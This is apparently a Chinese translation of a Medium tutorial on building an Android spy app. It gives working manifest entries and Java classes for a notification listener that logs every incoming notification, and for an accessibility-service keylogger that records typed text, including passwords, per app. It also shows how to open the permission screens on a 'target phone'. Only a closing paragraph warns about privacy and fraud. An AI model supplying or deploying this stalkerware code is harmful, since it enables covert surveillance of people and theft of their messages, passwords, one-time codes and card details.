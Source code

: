 # 如何在 Android 中搭建一个间谍 app？

> 原文：<https://medium.com/nerd-for-tech/how-to-build-a-spying-app-in-android-4051bf8feee9?source=collection_archive---------1----------------------->

![](img/bf75a270c9d0d0d1912816f88d847d54.png)

一天，当我漫不经心地浏览网页时，我看到了一个应用程序的广告，该应用程序旨在供父母用来监控他们十几岁孩子的电话使用情况。深入挖掘一下，我在 android play 商店发现了一大堆应用程序，它们提供监控(间谍！！)收费服务。我对这些应用程序的工作原理感到好奇，并开始阅读相关资料。我发现，建立一个是多么容易，从隐私的角度来看又是多么可怕。

间谍软件有两个基本部分，一个是监控进来的东西(比如电话/信息/提醒)，另一个是捕捉出去的所有东西(比如你输入的任何东西)。还有其他方面，如录制音频/视频，截图等，我可能会在下一篇文章中介绍。为了开始第一部分，我们首先在应用程序中实现 NotificationListener 服务。这是 android 文档对这项服务的描述

> 一种服务，当发布或删除新的通知，或者它们的等级发生变化时，接收来自系统的调用。

为此，我们在 AndroidManifest.xml 文件中添加一个服务定义，如下所示

```
<service
    android:name=".NotificationListener"
    android:permission="android.permission.BIND_NOTIFICATION_LISTENER_SERVICE">
    <intent-filter>
        <action android:name="android.service.notification.NotificationListenerService" />
    </intent-filter>
</service>
```

接下来创建一个扩展 NotificationListenerService 的类 NotificationListener。

```
public class NotificationListener extends NotificationListenerService {
    private SQLiteDatabaseHandler db;

    public String foregroundApp="";
    private Timer timer;
    public String mAccountName;
    public NotificationListener() {
        db = new SQLiteDatabaseHandler(this);
    }

    @Override
    public void onNotificationPosted(StatusBarNotification sbn) {
        Bundle extras = sbn.getNotification().extras;
        if ((sbn.getNotification().flags & Notification.*FLAG_GROUP_SUMMARY*) != 0) {
            Log.*d*("error", "Ignore the notification FLAG_GROUP_SUMMARY");
            return;
        }
        String title="";
        String text="";
        try {
            if (extras.get("android.title") instanceof String) {
                title = extras.getString("android.title");
            }
            if (extras.get("android.title") instanceof SpannableString) {
                title = extras.get("android.title").toString();
            }
            text = extras.getCharSequence("android.text").toString();
        }
        catch(Exception e)
        {
            Log.*i*("exception",e.getMessage());
        }

        String date = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss", Locale.*getDefault*()).format(new Date());
        Notifs thisNotif=new Notifs();
        thisNotif.setMessage(text);
        thisNotif.setTitle(title);
        thisNotif.setPackageName(sbn.getPackageName());
        thisNotif.setTime(date);
        thisNotif.setInum(sbn.getId());
        db.addNotification(thisNotif);
        super.onNotificationPosted(sbn);
    }

    @Override
    public void onNotificationRemoved(StatusBarNotification sbn) {
        super.onNotificationRemoved(sbn);
    }

    @Override
    public void onListenerConnected() {
        //Start Webserver
      startTimer();
        super.onListenerConnected();
    }

    @Override
    public void onListenerDisconnected() {

        stopTimer();
        super.onListenerDisconnected();
    }
```

上面的示例代码除了进行基本处理之外，还将通知存储在本地数据库中。每次手机收到新通知时，系统都会触发“onNotificationPosted”功能的回调。这里你可以做一些基本的处理来避免重复。

现在剩下的唯一事情是授予我们的应用程序访问该服务的权限。这是一个手动过程，需要您实际启用应用程序的权限。在目标手机上，你需要打开设置>应用与通知>高级>特殊应用访问>通知访问。您会看到您的应用程序列在屏幕上。你只需要点击它，并允许访问你的应用程序接收通知。或者，您可以通过这种方式触发打开此权限页面

```
Intent intent = new Intent(Settings.*ACTION_NOTIFICATION_LISTENER_SETTINGS*);
   startActivity(intent);
```

就是这样。现在，您可以捕获手机上收到的所有通知。

下一步是捕捉一切是在手机上输入的聊天信息，网址，密码！等等。为此，我们需要实现 AccessibilityService。同样，为了做到这一点，我们首先向清单文件中添加一个服务定义。

```
<service android:name=".KeyListener"
    android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
    <intent-filter>
        <action android:name="android.accessibilityservice.AccessibilityService" />
    </intent-filter>
    <meta-data android:name="android.accessibilityservice" android:resource="@xml/accessibilityservice" />

</service>
```

我们还需要添加一个 xml 文件，其中包含与可访问性服务相关的元数据，它告诉系统我们想要访问的事件类型，在本例中是 typeViewTextChanged。

```
<accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
    android:accessibilityEventTypes = "typeViewTextChanged"
    android:accessibilityFeedbackType="feedbackSpoken"
    android:notificationTimeout="100"
    >

</accessibility-service>
```

接下来创建一个名为 KeyListener 的类，它扩展了 AccessibilityService。

```
public class KeyListener extends AccessibilityService {
    public String foregroundApp="";
    public String lastMsg="";
    @Override
    public void onAccessibilityEvent(AccessibilityEvent event) {
        final int eventType = event.getEventType();
        String eventText = null;
        switch(eventType) {
            case AccessibilityEvent.*TYPE_VIEW_TEXT_CHANGED*:
                break;
        }

        String currApp=event.getPackageName().toString();
        if((foregroundApp.equals(currApp))||foregroundApp.length()==0)
        {
            lastMsg=event.getText().toString();
            Log.*d*("Pre",currApp + "  :  "+lastMsg);

        }
        else
        {
            Log.*d*("Final ",foregroundApp+" :  "+lastMsg);

        }
        foregroundApp=currApp;
        lastMsg=event.getText().toString();
    }

    @Override
    public void onInterrupt() {

    }
```

每当用户在他的 android 设备上输入任何东西，系统都会向我们发送一个通知，告诉我们在特定的 textview 中输入了什么。该通知还包含输入该信息的应用程序的详细信息。

最后要做的是授予我们的应用程序访问该服务的权限。您可以手动完成此操作，方法是转到“设置”>“辅助功能”,选择您的应用程序并授予其权限。或者，您可以按如下程序打开此屏幕

```
Intent intent = new Intent(Settings.*ACTION_ACCESSIBILITY_SETTINGS*);
startActivity(intent);
```

就是这样，现在你可以捕捉你的手机上输入的一切。

如上所述，实现这样的事情是极其容易的。要完成这一切所需要的是一个服务器组件，该应用程序将张贴所有信息。Android 提供了一定程度的保护，它迫使用户手动授予访问这些服务的权限，但即使是临时访问手机的人也可以安装间谍应用程序并启用它。

这也有很大的隐私问题，使用这些应用程序来监控他们所爱的人的人没有意识到提供这些功能的应用程序可以访问非常私人的数据。这也可以包括通过短信或电子邮件收到的 OTP。此外，信用卡号码/详细信息以及在手机上输入的任何内容都很容易被这些应用程序提供商获取。冒这个险，安装这样的应用程序，让自己暴露在财务和身份欺诈面前，真的值得吗？